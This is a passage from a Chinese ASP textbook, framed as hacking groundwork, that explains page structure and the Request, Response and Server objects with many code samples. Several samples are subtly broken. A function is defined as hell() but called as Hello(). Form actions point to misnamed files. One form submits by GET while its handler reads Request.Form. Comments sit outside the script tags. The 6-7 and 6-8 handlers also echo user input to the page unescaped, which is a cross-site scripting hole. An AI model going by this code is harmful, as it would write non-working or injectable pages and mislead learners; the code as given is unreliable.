<%
for(i=1;i<5;i++)
{
%>
Hello world!<br>
<%
}
%>
```

这个例子会在浏览器中输出 5 次 Hello world! 语句。这种声明方法必须将声明语句放在文件的第一行，同时要注意在 `@` 和保留字 `language` 之间有一个空格。

- 3. 第三种声明方式的作用范围最小，这种声明方式就是在标记对 `<script>` 的后面通过 `language` 关键字来声明。同客户端的声明是一样的，不过要记得在后面加上 `runat="Server"` 关键字，前面已经给大家介绍了。下面举个例子：

```html
<script language=JavaScript runat="Server">
Function hell()
{
    Response.write("hello world!")  // Response 为输出语句，在后面会给大家介绍
}
</script>
<%
Hello()  // 注意：调用 hell() 函数的语句是用 <%...%> 标志的
%>
```

##### 3. ASP 脚本的书写格式

HTML 文本、服务器脚本以及客户端脚本是 ASP 文档中的三种元素，在编码的时候它们互相不会影响。通常 HTML 文本和客户端脚本之间相互不会影响，但是服务器端脚本能够控制 HTML 文本和客户端脚本的输出。下面就列举几种情况。

### 第一种是三种元素互相不影响：

在这种情况下，原则上服务器端脚本可以在 ASP 文件的任意位置，不过为了提高可读性可以放在 HTML 标记的 `<head>...</head>` 之间。示例 5-1 演示了最简单的一种 ASP 书写格式，即 ASP 文件中的三种脚本互相不受影响。代码如下：

```html
<html>
<head>
<title>ASP 示例</title>
<% response.write("hello world!<br>") %>
<SCRIPT LANGUAGE="VBScript">
<!--
    document.write "这是第 2 个输出的!<br>"
-->
</SCRIPT>
</head>

<body>
学好 ASP 基础，就可以找 ASP 程序漏洞了，哈哈！
</body>

</html>
```

将上面的代码用记事本编辑之后保存为 `6-1.asp`。然后把这个文件放入到服务器的虚拟路径中，最后在浏览器中输入 `6-1.asp` 文件的虚拟路径。这里大家要特别注意的是必须为虚拟路径，代码执行的结果如图 6-1 所示。

图 6-1 运行后的结果

服务器在解释 6-1.asp 文件的时候首先遇到服务器端脚本，那么服务器将它首先解释成普通的脚本，而如果代码中是客户端脚本或是普通的 HTML 文本，那么服务器会原封不动地将它们发往客户端，因此在客户端浏览器实际解释的文件代码如下（大家可以直接在浏览器的浏览区单击右键，在弹出菜单中选择【查看源文件】查看代码）：

```html
<html>
<head>
<title>ASP 示例</title>
hello world!<br>
<SCRIPT LANGUAGE="VBScript">
<!--
    document.write "我是第 2 个输出的!<br>"
-->
</SCRIPT>
</head>

<body>
学好 ASP，走遍天下都不怕！
</body>

</html>
```

从上面的代码中可以看到，虽然 ASP 文件中有服务器端的脚本文件，而传递到了客户端以后，就都转化成了客户端脚本，这样可以全面保证 ASP 代码的安全性。上面的代码中三种元素互相不影响，因此输出顺序只是按照书写代码的顺序来输出的。下面来看看第二种。

##### 第二种是服务器端脚本控制 HTML 文本的输出

因为 ASP 是属于动态网页，所以可以通过 ASP 的服务器端脚本，根据不同的情况输出不同的内容。示例 6-2 是一个服务器端脚本控制 HTML 文本输出的实例，演示了根据不同输入的年龄，判断一个人的年龄层。代码如下：

```html
<html>
<head>
<title>ASP 示例</title>
</head>

<body>
<%
dim age
age=6
if age<=6 then
%>
你还是小破孩呢！
<%
elseif age<=18 then
%>
你还是未成年哦！
<%
elseif age<=30 then
%>
你是个大人了哦！
<%
elseif age<=60 then
%>
你已经步入中年了！
<%
else
%>
你已经进入老年了！
<%
end if
%>
</body>

</html>
```

代码执行后的结果如图 6-2 所示。

图 6-2 服务器端脚本控制 HTML 文本的输出的结果

从上面的代码中可以看出，并不是所有的 HTML 文本都显示出来了，而是根据服务器端的控制语句来输出符合条件的语句。这一点我们可以从客户端的源代码看出，代码如下所示：

```html
<html>
<head>
<title>ASP 示例</title>
</head>

<body>
你还是小破孩呢！
</body>

</html>
```

##### 第三种是服务器端脚本控制客户端脚本

通过服务器端脚本来控制客户端脚本在我们的实际代码中不是很常见，不过为了给大家打下更坚实的基础，这里我还是说一下。还是用一个简单的例子来说明。示例 6-3 演示了根据输入的数字，通过客户端脚本动态地弹出一个对话框。代码如下：

```html
<html>
<head>
<title>ASP 示例</title>
</head>

<body>
<%
dim myNum
myNum=9
response.write "<script language=VBScript>" & vbcrlf
response.write "<!--" & vbcrlf
response.write "msgbox ""我是数字" & myNum & """" & vbcrlf
response.write "-->" & vbcrlf
response.write "</script>" & vbcrlf
%>
</body>

</html>
```

代码运行后的结果如图 6-3 所示。

图 6-3 服务器端脚本控制客户端脚本输出结果

在代码 6-3 中，可以看到就是利用服务器脚本控制客户端脚本。我们知道，客户端脚本都是写好的，不能够改变；但是在 6-3 中可以根据服务器端代码动态地改变客户端脚本。在示例 6-3 中，输出字符串使用的是“response”，它是 ASP 的内置对象之一，下一节会详细地讲。

同时为了能够向客户端输出引号，我们需要用两个连续的引号，这样表示向客户端输出一个引号。代码 6-3 执行后的客户端脚本代码如下所示：

```html
<html>
<head>
<title>ASP 示例</title>
</head>

<body>
<script language=VBScript>
<!--
msgbox "我是数字 9"
-->
</script>
</body>

</html>
```

##### 第四种是在 HTML 中引用服务器端变量

很多的时候，我们需要在 HTML 的文本中插入服务器定义的变量值。虽然通过“response”对象能够直接输出变量，但是这样的使用比较麻烦，下面介绍一种快捷方式，如下所示：  
`<%=变量名%>`

下面我们通过一个实例来说明，示例 6-4 演示了根据服务器定义的颜色值，客户端文字就显示不同的颜色。代码如下：

```html
<html>
<head>
<title>ASP 示例</title>
</head>

<body>
<%
dim color1,color2,color3
color1="green"
color2="blue"
color3="red"
%>
</body>
<font color=<%=color1 %>>我是绿色的文字呢</font><br>
<B><font color=<%=color2 %>>我是蓝色的文字呢</font><br>
<I><font color=<%=color3 %>>我是红色的文字呢</font>
</html>
```

代码执行后的结果如图 6-4 所示。

图 6-4 在 HTML 中引用服务器端变量后的结果

上面的代码中，在 HTML 文本中就直接使用服务器脚本的变量，其客户端脚本如下所示：

```html
<html>
<head>
<title>ASP 示例</title>
</head>

<body>

</body>
<font color=green>我是绿色的文字呢</font><br>
<B><font color=blue>我是蓝色的文字呢</font><br>
<I><font color=red>我是红色的文字呢</font>
</html>
```

上面就是 ASP 的文档结构及其使用的方法了，相信大家都掌握了，不要认为上面这些没有用哦，这对大家在后面的 ASP 学习中会有很大的帮助。下面一节开始就真正地开始接触 ASP 的知识了，大家一定很期待吧，跟着我的脚步走吧！

### 6.2 ASP 常用的内置对象

下面我们来简要回顾一下什么是对象。在面向对象编程中，对象是计算机中的一块内存区域，这块内存块是被用作可多次复制的模板，它包含数据和代码。对象中的数据只能由对象中的代码来引用。对象是通过实例来使用的，对象的实例就是对象模板的一次复制。建立实例后，用户可以像使用变量那样使用对象的数据，利用对象的代码执行某种操作。各个对象之间的通信是通过函数调用实现的。对象中可以包含“集合、属性和方法”，集合和属性是数据，而方法就是对象的内部代码。

ASP 包含的主要内置对象有 Request、Response、Server、Session、Application 等。而 ActiveX 组件实际上就是“外建”对象。ActiveX 组件是建立 Web 应用程序的关键，组件提供了在脚本中执行任务的对象。ActiveX 组件是一个文件，该文件包含执行某项或一组任务的代码。由于组件可以执行公用任务，这样程序员们就不必自己去创建执行这些任务的代码。我们可以利用组件作为脚本和基于 Web 应用程序的基本构造块。只要知道如何访问组件提供的对象，那么即使我们是编写脚本的新手，也可以在不了解组件运作方式的情况下编写脚本。总之，组件使我们在不用学习编程就能够编写强大的脚本。组件是包含在动态链接库 dll 或可执行文件 exe 中的可执行代码。组件可以提供一个或多个对象。在 ASP 中我们可以使用 Server.CreateObject 方法来创建对象的实例。

对于黑客而言，上面对象中使用频繁的就是 Request、Response、Server、Session 这四个了，因为我们是在讲黑客技术，所以只谈它们四个，至于其他两个大家可以去参考光盘中自带的电子书。

#### 6.2.1 Request 对象

虽然客户端脚本语言实现了很多功能，但是在我们的 ASP 开发中，仅仅有脚本语言是不够的，因此对象就完成了强大的功能。

当我们客户端请求一个页面或者传递一个窗口的时候，比如我们在图 6-5 中输入了我的电子邮件和密码，当我按了“登录”按钮的时候，服务器就能够获取我输入的电子邮件地址和密码。而在 ASP 中服务器正是利用 Request 对象来获取我们客户端提供的全部信息。不仅包括我们输入的电子邮件和密码，还包括浏览器和用户的 HTTP 变量，这个域名下存放在浏览器的 Cookies、任何用户查询而附于 URL 之后的字符串或页面的 `<form>` 段内的 HTML 控件的值。Request 对象也提供使用 Secure Socket Layer (SSL) 或其他加密通信协议的授权访问，当我们使用 Secure Socket Layer (SSL) 后，就是利用 https 协议进行通信了，同时在浏览器的底部还会有一把小锁，网上银行都是采用这种方式的。

图 6-5 登录邮箱

在介绍 Request 对象之前，大家首先要明白 HTML 的响应机制。

- 1. HTML 的响应机制

当我们通过浏览器访问一个 Web 站点的时候，首先是向服务器发送一个连接请求，请求的内容包括：服务器的地址、请求页面的路径。服务器会将我们请求的路径以及页面路径组合起来找到相应的页面，然后返回到客户端的浏览器供我们浏览。比如我们打开 http://news.sina.com.cn/z/the6huitan/index.html 页面，其中 http://news.sina.com.cn/ 是服务器地址，而 z/the6huitan/index.html 就是请求页面的路径了。它们组合起来就可以找到相应的页面，然后就返回到我们的客户端，如图 6-6 所示。

图 6-6 HTML 的响应机制返回的页面

上面就是客户端向服务器提交数据请求，然后服务器根据客户端的请求返回所需要的数据。通常客户端向服务器端提交数据的时候，有多种数据提交方式，最常用的为 GET 方法和 POST 方法。下面分别来解释这两种方法。

##### GET 提交方法

有两种方法可以使客户端通过“GET”方法来提交数据。

- 1. 直接在浏览器中输入地址来获取 ASP 文件，在默认的情况下使用的提交方法是 GET 方法。如下所示：

```text
http://localhost/ASP/6-5.asp
```

如果这个时候有数据传递给服务器，那么可以采用下面的方法：

```text
http://localhost/ASP/6-5.asp?name1=value1&name2=value2&name3=value3...
```

从上面可以看到，通过 GET 方法传递数据的时候，只要将需要传递的数值放在 URL 地址后面，之间通过问号“?”隔开。传递数据的格式为“name=value”，name 就是要传递的名称，而 value 就是要传递的数值，其中 name 是要能够被服务器识别。当有多个值要传递的时候，多个值之间可以通过符号“&”分隔开。

- 2. GET 方法提交表单数据

为了说明这种方法，我们先通过一个例子来说明。示例 6-5 由两个文件组成，一个是基本的表单文件，另外一个数据处理文件。文件名分别为 6-5.html 和 6-5.asp。第三章我们学习了 HTML 基础知识，大家都知道了表单文件是不需要经过服务器解释，因此为 html 文件，而处理文件是需要经过 asp 代码实现，因此命名为 asp。大家要注意，如果一个文件中不包含 ASP 代码，那么就尽可能地将其命名为 HTML 文件，这样可以加快速度。

6-5.html 的文件代码如下所示：

```html
<html>

<head>
<meta http-equiv="Content-Language" content="zh-cn">
<title>简单的HTML表单</title>
</head>

<body>

<form method="GET" action="6-5.asp">
  <p>姓名：<input type="text" name="name" size="20"></p>
  <p>年龄：<input type="text" name="age" size="20"></p>
  <p>学校：<input type="text" name="school" size="20"></p>
  <p>性别：<input type="text" name="sex" size="20"></p>
  <p><input type="submit" value="提交" name="B1"><input type="reset" value="重置" name="B2"></p>
</form>

</body>

</html>
```

代码执行后的结果如图 6-7 所示。

图 6-7 一个简单的 GET 方法提交的 HTML 表单

我们首先来看 6-5.html 文件中的“`<form method="GET" action="6-5.asp">`”，我们知道 form 就是代表表单；method="GET" 就是设定提交数据的方式，这里我们设定的是“GET”方法；action="6-5.asp" 就是设定处理文件，也就是当我们单击图 6-7 中的【提交】按钮时候，自动连接到 6-5.asp 这个文件进行处理，这里设定的处理文件是 6-5.asp。

6-5.asp 的代码如下所示：

```html
<html>

<head>
<title>6-5.asp</title>
</head>

<body>
哈哈，你提交成功了，你提交的数据，我会在后面章节获得！
</body>

</html>
```

单击【提交】按钮之后显示的界面如图 6-8 所示。

图 6-8 利用 GET 方法通过表单提交的数据

大家这里要注意的不是执行后的结果，而是地址栏中显示的地址，具体如下所示：

http://localhost/ASP/6-5.asp?name=曾云好&age=20&school=collage&sex=boy&B1=%CC%E1%BD%BB

虽然在 6-5.html 表单中定义的处理文件是“6-5.asp”，但在实际传递的时候，它把我们填入的数据都加在了连接地址的后面了，即“name=曾云好&age=20&school=collage&sex=boy&B1=%CC%E1%BD%BB”。要注意，其中关键字 B1 就是【提交】按钮的名称，而后面的数据则是这个按钮显示的值，因为经过了编码，所以显示的是各种符号，这个大家在学习 Server 对象的时候就会知道。还有一点大家要知道，GET 方法只适合传递数据量比较小的表单，对于数据量比较大的，一般都是使用 POST 方法提交。

##### POST 提交方法

POST 方法只能通过表单来实现，它的表单形式和 6-5.html 基本上是一致的，只是提交方法 method="GET" 改成了 method="POST"，POST 是在 ASP 编程中使用最多的提交数据的方法了。示例 6-6 演示了 POST 方法提交数据。这个例子也是由两个文件组成，分别是 6-6.html 和 6-6.asp，其中 6-6.html 的代码如下：

```html
<html>

<head>
<title>POST 方法提交表单</title>
</head>

<body>

<form method="POST" action="6-6.asp">
    <p>姓名：<input type="text" name="name" size="20"></p>
    <p>年龄：<input type="text" name="age" size="20"></p>
    <p>学校：<input type="text" name="school" size="20"></p>
    <p>性别：<input type="text" name="sex" size="20"></p>
    <p><input type="submit" value="提交" name="B1"><input type="reset" value="重置" name="B2"></p>
</form>

</body>

</html>
```

代码 6-6 显示的界面同 6-5 基本上是一样的，如图 6-9 所示。

图 6-9 一个简单的 POST 方法提交的 HTML 表单

文件 6-6.asp 的代码如下所示：

```html
<html>

<head>
<title>6-6.asp</title>
</head>

<body>
哈哈，这是通过 POST 方法提交过来的数据
</body>

</html>
```

当我们单击【提交】按钮，就会自动提交到 6-6.asp 文件进行处理，显示的结果如图 6-10 所示。这里大家同样要注意看地址栏的显示，会发现这和我们的 GET 方法有很大的区别，这里的链接地址中没有附带任何数据，而是单独作为一个数据模块提交到服务器的。

图 6-10 6-6.asp 的显示结果

上面就是我给大家简单介绍的 HTML 数据提交方式，下面就带领大家开始学习 Request 对象。

##### （2）Request 对象的成员

Request 对象主要是获取从客户端传递过来的各种数据，在上一小节我已经给大家分析了客户端提交数据的方式了，但是并没有具体给大家介绍如何获取这些数据，接下来我给大家介绍。

详细分析 Request 对象提供的一系列方法、属性和集合，以便获取各种客户端提交的数据。Request 对象的成员如表 6-1 所示。

| Request 对象成员 | 说明 |
|---|---|
| 属性 TotalBytes | 返回由客户端发出请求的字符流的字节数量，它是一个只读属性。 |
| 方法 BinaryRead(count) | 当使用 POST 方法发送请求时，从请求的数据中获得 count 字节数据，返回一个数组。注意：如果已经引用了 Request.Form 集合，就不能使用这个方法。同样，如果用了 BinaryRead 方法，就不能访问 Request.Form 集合。 |
| 集合 QueryString | 读取使用 URL 参数方式提交的名值对数据，或者以 GET 方法提交 `<form>` 中的数据，为只读。 |
| 集合 Form | 读取使用 POST 方法时提交 `<form>` 中的数据，为只读。 |
| 集合 ServerVariables | 客户端请求的 HTTP 报头值，以及一些 Web 服务器环境变量值的集合，为只读。 |
| 集合 Cookies | 用户系统发送的所有 Cookie 值的集合，为只读。 |
| 集合 ClientCertificate | 客户端访问页面或其他资源时，表明身份的客户端证书所有字段或条目的数据集合，为只读。 |

表 6-1 Request 对象的成员

##### （3）Request 对象的使用

上面大家对 Request 对象的成员已经有了初步的认识，接下来就是需要掌握它的应用了。与黑客紧密相关的主要是集合 QueryString、集合 Form、集合 ServerVariables，所以下面主要对它们进行讲解。Request 的应用比较简单，具体的应用格式如下所示：

Request[.集合|属性|方法](变量)

###### 获取 GET 方法提交的数据——QueryString

前面已经介绍了 GET 的数据提交方法，但是并没有告诉大家如何获取这些提交的数据。在 Request 对象中，是通过 QueryString 集合实现的。具体的获取格式如下：

Request.QueryString("名称")

其中，“名称”是表单元素名称或者 URL 中的 “name=value” 数据对中的 “name”。下面通过一个例子来实践学习。

示例 6-7 演示了如何获取通过 GET 方法提交的数据，表单文件同 6-5.html 基本上一致，不过这里为了方便大家，把它改名为 6-7.html，并把代码贴出来。另外还有一个提交处理文件 6-7.asp，这个文件能够获取 6-7.html 输入的数据，并显示在浏览器中。6-7.html 的代码如下所示：

```html
<html>
<head>
<title>GET 方法提交表单</title>
</head>

<body>
<form method="GET" action="3-7.asp">
  <p>姓名：<input type="text" name="name" size="20"></p>
  <p>年龄：<input type="text" name="age" size="20"></p>
  <p>学校：<input type="text" name="school" size="20"></p>
  <p>性别：<input type="text" name="sex" size="20"></p>
  <p><input type="submit" value="提交" name="B1"><input type="reset" value="重置" name="B2"></p>
</form>
</body>
</html>
```

6-7.html 的显示结果同图 6-9 一样，这里就不贴图了。而 6-7.asp 文件的代码如下所示：

```asp
<html>
<head>
<title>3-7.asp</title>
</head>
<body>
<%
dim myName, myAge, mySchool, mySex
myName=request.querystring("name")    '获得客户端提交的数据，通过 GET 方法
myAge=request.querystring("age")
mySchool=request.querystring("school")
mySex=request.querystring("sex")
%>
我的姓名是： <%=myName %><br>    '输出变量
我的年龄是： <%=myAge %><br>
我的学校是： <%=mySchool %><br>
我的性别是： <%=mySex %><br>
</body>
</html>
```

代码 6-7.asp 执行后的结果如图 6-11 所示。

图 6-11 6-7.asp 的执行结果

###### 获取 POST 方法提交的数据——Form 集合

在我们实际的代码中，通过 POST 方法提交数据的时候用得最多，它能够传递大量的数据。当通过 POST 方法提交数据的时候，必须使用 Form 集合来获取数据。不过这里大家要注意，这里的“必须”并不是绝对的，其实 Request 对象可以不通过集合来获得数据，即直接使用 “Request("name")” 来获取。虽然这样写代码很简单，但它的效率比较低，而且容易出错。当我们省略具体的集合名称时，ASP 会按以下顺序来搜索集合：①QueryString ②Form ③Cookie ④ServerVariables。

通过 Form 获取数据的格式如下：

Request.Form("名称")

前面介绍的各种 QueryString 使用方法，对于 Form 来说也是适合的。示例 6-8 演示了 Form 的例子，这个例子由两个文件组成，分别为 6-8.html 和 6-8.asp。其中 6-8.html 是基本的表单输入文件，6-8.asp 是表单处理文件，即获得客户提交的数据。6-8.html 的代码如下所示。

```html
<html>
<head>
<title>常用表单控件的数据获取</title>
</head>

<body>
<form method="GET" action="3-8.asp">
    <p>你的姓名：<input type="text" name="name" size="20"></p>
    <p>你的家乡在：<select size="5" name="home">
    <option>江西</option>
    <option>湖南</option>
    <option>广东</option>
    <option>北京</option>
    <option>上海</option>
    </select>，你喜欢哪些城市：<select size="5" name="city" multiple>
    <option>深圳</option>
    <option>北京</option>
    <option>上海</option>
    <option>南京</option>
    <option>苏州</option>
    </select>（可以多选）</p>
    <p>你的爱好是（可以多选）：</p>
    <p>足球<input type="checkbox" name="hobby" value="足球">&nbsp;&nbsp;&nbsp;
    篮球<input type="checkbox" name="hobby" value="篮球">&nbsp;&nbsp;&nbsp;
    羽毛球<input type="checkbox" name="hobby" value="羽毛球">&nbsp;&nbsp;&nbsp;
    乒乓球<input type="checkbox" name="hobby" value="乒乓球"></p>
    <p>你的性别是：男<input type="radio" value="男" name="sex" checked>&nbsp;&nbsp;&nbsp;
    女<input type="radio" name="sex" value="女"></p>

    <p><input type="submit" value="提交" name="B1">
    <input type="reset" value="重置" name="B2"></p>
</form>
</body>
</html>
```

6-8.html 的运行结果如图 6-12 所示。

图 6-12 示例 6-8.html 文件运行的结果

6-8.asp 文件的代码如下所示：

```asp
<html>
<head>
<title>3-11.asp</title>
</head>
<body>
<%
dim myName, myHome, myCity, myHobby, mySex
myName=request.form("name")   '获得客户端的数据，通过 POST 方法
myHome=request.form("home")
myCity=request.form("city")
myHobby=request.form("hobby")
mySex=request.form("sex")
%>
我的姓名是：<%=myName %><br>   '输出变量值
我的家乡是：<%=myHome %><br>
我喜欢城市：<%=myCity %><br>
我的爱好是：<%=myHobby %><br>
我的性别是：<%=mySex %><br>
</body>
</html>
```

当我们单击图 6-13 中的【提交】按钮之后，就会执行 6-8.asp 文件，其显示效果如图 6-13 所示。

图 6-13 6-8.asp 执行的结果

###### ServerVariables 集合

ServerVariables 集合可用于提供有关与 HTTP 请求一起传递的 HTTP 头信息。浏览器的请求和服务器的响应都包含了 Headers，Headers 提供了有关请求和响应的附加信息，包括浏览器生成请求和服务器提供响应的过程信息。通过使用 ServerVariables 集合的成员，可以获取有关发出请求的浏览器类型的信息、请求者的 IP 地址、构成请求的 HTTP 方法以及 ASP 参与的 HTTP 事务的其他重要数据；如果这些数据没有处理好，也同样会产生比较大的安全问题，后面还会提到。ServerVariables 的使用方法如下：

```asp
Request.ServerVariables("服务器环境变量")
```

服务器变量比较多，下面列举一些比较常用，而且在黑客技术中也会用到的变量。

- **ALL_HTTP**：客户端发送的所有 HTTP 标题文件。
- **CONTENT_TYPE**：发送内容的数据类型，如 “text/html”。应该同表单信息的查询一起使用，如 HTTP 查询 GET、POST 和 PUT。
- **LOCAL_ADDR**：返回接受请求的服务器地址。如果在绑定多个 IP 地址的多宿主机器上查找请求所使用的地址时，这个变量就变得非常重要。
- **REMOTE_ADDR**：发出请求的远程主机的 IP 地址。
- **REMOTE_HOST**：发出请求的主机名称。
- **REQUEST_METHOD**：用于提出请求，相当于 HTTP 的 GET、HEAD、POST 等。
- **SERVER_NAME**：会在自引用的 URL 中出现的服务器主机名、DNS 别名、IP 地址。
- **SERVER_PORT**：发出请求的端口号。

#### 6.2.2 Response 对象

Response 对象用于向客户端浏览器发送数据。我们可以利用这个对象将服务器端的数据，用 HTML 超文本的格式发送到客户端浏览器上。这个对象的功能恰恰与 Request 对象的功能相反。Request 对象用于得到用户提交的数据，而 Response 对象用于将服务器端的数据发送到用户的浏览器上，这也是实现动态网页的基础。

在前面我们已经接触了一点点 Response 对象的功能，接下来系统性地介绍和学习这个对象的集合、方法和属性。

##### （1）Response 对象的成员

Response 对象的成员如表 6-2 所示。

| Response 对象成员 | 说明 |
|---|---|
| 属性 Buffer | 控制缓冲，即 ASP 页是否一直存放在 IIS 缓冲区，直到服务器脚本处理完毕或 Flush、End 方法被调用。必须在任何输出之前设置，即设置应在 `<%@ language=...%>` 语句后第一行，默认值为 True。 |
| 属性 CacheControl | 设置为 Public 允许代理服务器缓存页面；为 Private 则禁止代理服务器缓存。 |
| 方法 BinaryWrite("string") | 在当前的 HTTP 输出流中写入 Variant 类型的 SafeArray，而不经过任何字符转换。用于二进制数据或图像文件的二进制数字节。 |
| 方法 Clear() | 当 Response.Buffer 为 True 时，从 IIS 响应缓冲区中删除现存的缓冲页面内容。 |
| 方法 End | 结束处理页面脚本，并返回当前已创建的内容。 |
| 方法 Redirect("url") | 在服务器端页面重定向，url 中可以带名值对参数。 |
| 方法 Write("string") | 在当前的 HTTP 响应信息流和 IIS 缓冲区写入字符，是用得最多的一个方法，基本上所有对用户的响应都用这个方法完成。 |
| 集合 Cookies | 只读，在当前响应中发回客户端的所有 Cookie 值。 |

表 6-2 Response 对象

##### （2）Response 对象的使用

在 Response 对象中，用得最多的就是 Write 方法，它直接将各种数据输出到客户端。在前面的学习中也多次用到了这个方法，因此首先来介绍这个方法。

###### Write 方法

Write 方法使用比较简单，它的使用方式如下：

Response.Write（字符串）

由于前面已经多次用到了这个方法，所以这里通过一个简单的例子来介绍其应用。示例 6-9 演示了常用的 Response.Write 输出技巧和实例，代码如下所示。

```asp
<html>
<head>
<title>Response.Write</title>
</head>
<body>
<%
dim myName
myName="我是 forway tech"
myColor="red"
Response.Write "你好，我是新手！<br>"  '直接输出字符串
Response.Write myName & "<br>"      '输出变量
Response.Write "<B><I>我是粗体加斜体<br>"  '直接输出 HTML 代码
Response.Write "<font color=" & myColor & ">我是红色的字哦" & "</font><br>"  '输出带变量的 HTML 代码

Response.Write "我可是引号哦，也能够输出的----""<br>"  '输出引号
Response.Write "我可是服务器端的标志哦---%>"
%>
</body>
</html>
```

代码 6-9.asp 的执行结果如图 6-14 所示。

图 6-14 文件执行后的结果

###### Redirect 方法

Redirect 方法也是比较常用的方法，它能够快速将网页重新定位到一个新地址上。注意在重定向的时候，要设置 Response 对象的 Buffer 属性为真，否则会引起错误。示例 6-10 演示了能够根据我们的选择自动连接到指定的网页。另外，示例 6-10 的代码采用了一种新方法，即将表单文件和处理文件集成在一个文件中，而前面我们是用两个文件实现的。6-10.asp 的代码如下：

```asp
<% response.buffer=true %>  '设置 Response 对象的 Buffer 属性为真
<html>
<head>
<title>Response.Redirect</title>
</head>
<body>
<%
if Request.ServerVariables("REQUEST_METHOD")="GET" then
    '第一次进入该页，使用的是 GET 方法
%>
<form action="3-14.asp" method="post">
<select name="target">
<option selected value="sohu">搜狐</option>
<option value="sina">新浪</option>
<option value="netease">网易</option>
</select>
<input type=submit value="目标地址">
</form>
<%
else              '如果为 POST
dim target
target=Request.form("target")
Select Case target
case "sohu"
    response.redirect "http://www.sohu.com"
case "sina"
    response.redirect "http://www.sina.com"
case "netease"
    response.redirect "http://www.163.com"
End Select
end if
%>
</body>
</html>
```

第一次进入这个文件，就显示如图 6-15 所示的结果。

图 6-15 执行后的结果

当我们在下拉框中选择一个目标后，单击【目标地址】按钮，就会自动链接到我们选择的网站上去。

###### Clear 方法

用 Clear 方法可以清除缓冲区中的所有 HTML 输出。但 Clear 方法只会清除响应正文而不会清除响应标题。这个方法还可以处理错误情况，但是如果没有将 Response.Buffer 设置为 True，那么这个方法将会导致程序运行时出错。

###### Flush 方法

使用 Flush 方法可立即将缓冲区中的内容输出。如果没有将 Response.Buffer 设置为 True，那么这个方法将会导致程序运行时出错。

###### End 方法

End 方法可使 Web 服务器停止处理脚本，并返回当前结果，文件中剩下的内容将不被处理。如果 Response.Buffer 已设置为 True，则 Response.End 将缓冲输出。

其中 End 方法和 Clear 方法比较常用，下面举个例子来给大家演示一下。示例 6-11 是根据随机产生的数据来动态决定是显示内容一还是内容二，它的代码如下：

```asp
<%
Response.Buffer=True  '一定要设置为 True
%>
<html>
<head><title>End 和 Clear 方法使用!</title></head>
<body>
虽然这里已经有内容了，但是前面设定了 Buffer 属性为真，因此还不会显示出来。
</body>
</html>
<%
Randomize  '动态产生随机数
If Int(2*rnd)=1 then Response.End  '如果随机数为 1，则结束程序
'如果不为 1，则会执行下面的内容，为了不让前面的内容显示出来，这里调用 Clear 方法
'使前面的内容消失
Response.Clear
%>
<html>
<head>
<title>内容二</title>
</head>
<body>
这里显示的是内容二，前面的内容已经被 Clear 了。
</body>
</html>
```

代码 6-11 执行的结果是图 6-16 或 6-17 之一，但不会同时出现。

图 6-16 执行后的结果之一

图 6-17 执行后的结果之二

##### Buffer 属性

这个属性前面已经多次使用了，它表明由一个 ASP 页所创建的输出是否一直存放在 IIS 缓冲区，直到当前页面的所有服务器脚本处理完毕，或 Flush、End 方法被调用为止。这个属性必须在任何输出（包括 HTTP 报头信息）送往 IIS 之前设置，因此在 ASP 文件中，这个属性的设置应该在 `<%@ language=... %>` 语句后面的第一行。目前的 ASP 版本都是将缓冲区设置默认为开（True）。

##### Status 属性

Status 属性传递服务器 HTTP Response 的状态。这个属性可以用来处理 HTTP Response 服务器返回的错误。大家可能也知道服务器返回的状态码是由三位数字组成，客户程序可以用来确定服务器是如何处理其请求的。除了代码之外，Status 还返回一个大家可以读得懂的有关状态代码的解释。Response 对象的 Status 属性并不修改 Header，但是由于它可以被用来限定一个 HTTP 响应的状态码。前面已经说了状态码是由三位数字组成，下面是五种状态代码的含义列表：

- 1xx 信息：这种状态码主要是用于试验性的。
- 2xx 成功：这种状态信息是说明请求已经被成功接受并响应，例如状态码 200 表示主页请求被完全成功地接受了。
- 3xx 重定向：这个状态码指示被请求前要了解的后面进程信息，例如状态码 301 说明该主页已经转移到了其他地址，这个时候浏览器会自动转向新的地址。
- 4xx 客户端错误：这个状态码表示浏览器发出的是错误的请求，例如 404 指的是浏览器请求的主页不存在。
- 5xx 服务端错误：这个状态码表明服务器响应出了问题。例如 503 指当前服务端遇到了无法应付的错误。

## 6.2.3 Server对象

在介绍完前面两个重要的对象之后，接下来就介绍另外一个重要的对象，即 Server 对象。我们已经知道，ASP 是依赖于脚本语言的，而脚本语言由于其功能非常有限，这就局限了 ASP 只能用来完成有限的任务；而有了 Server 对象以后，任何只要符合微软 COM 接口的组件、动态链接库等，都可以被 ASP 使用，这样就无限制地扩展了 ASP 的功能。

##### （1）Server 对象的成员

Server 对象只提供了一个属性，但它提供了七种方法用以格式化数据、管理网页执行、管理外部对象和组件执行以及处理错误，这些方法大大增强了 ASP 的功能，同时也给我们的黑客技术提供了很多方便和利用之处。Server 对象成员的信息如表 6-3 所示。

| 成员 | 说明 |
|---|---|
| 属性 ScriptTimeout | 脚本在服务器退出执行和报告一个错误之前可以执行的时间，默认为 90（秒）。 |
| 方法 CreateObject | 创建组件、应用程序或脚本对象的一个实例，以组件的 ClassID 或者 ProgID 为参数。通过这个方法可以扩展 ASP 功能。 |
| 方法 MapPath("vPath") | 将虚拟路径映射为物理路径，多用于 ACCESS 数据库文件。通常为了防止 ACCESS 数据库被下载，将其放在站点应用程序外，并通过 MapPath 方法找到数据库。 |
| 方法 HTMLEncode("string") | 将输入字符串值中的所有非法 HTML 字符转换成等价的 HTML 条目，如 `<` 和 `>` 转换成 `&lt;` 和 `&gt;`；这个在对付黑客上非常有用。 |
| 方法 URLEncode("url") | 将输入字符串值在 URL 中无效的所有字符转换成等价的 URL 条目，如 `?`、`&` 和空格转换成 `%3F`、`%26` 和 `+`。 |
| 方法 Execute("url") | 停止当前页面的执行，把控制转到 url 指定的网页。在该页面执行完成后控制传递回原先的页面。当前环境被传递到新的网页。 |
| 方法 Transfer("url") | 与 Execute 方法类似，不同的是，当新页面执行完成时结束执行过程，而不回到原来的页面。 |
| 方法 GetLastError() | 返回 ASPError 对象的一个引用，包含该页面在 ASP 处理过程中发生的最近一次错误的详细数据。 |

表 6-3 Server 对象成员的信息

##### （2）Server 对象的使用

首先介绍 Server 对象唯一的属性 ScriptTimeout。

###### ScriptTimeout 属性

ScriptTimeout 属性设置 ASP 页面中超时的时间限制。当一个 ASP 页面在脚本超时期限之内仍然没有执行完毕，ASP 将终止执行并显示超时错误。默认脚本超时期限是 90 秒，通常这个期限足以让 ASP 页面执行完毕。但是在有一些情况下还是不能够完成，比如我们上传一个很大的文件的时候，90 秒的超时期限不能满足要求，这个时候就需要设置 ScriptTimeout 属性了，在 IIS 下我们可以进行设置，详见第一章。
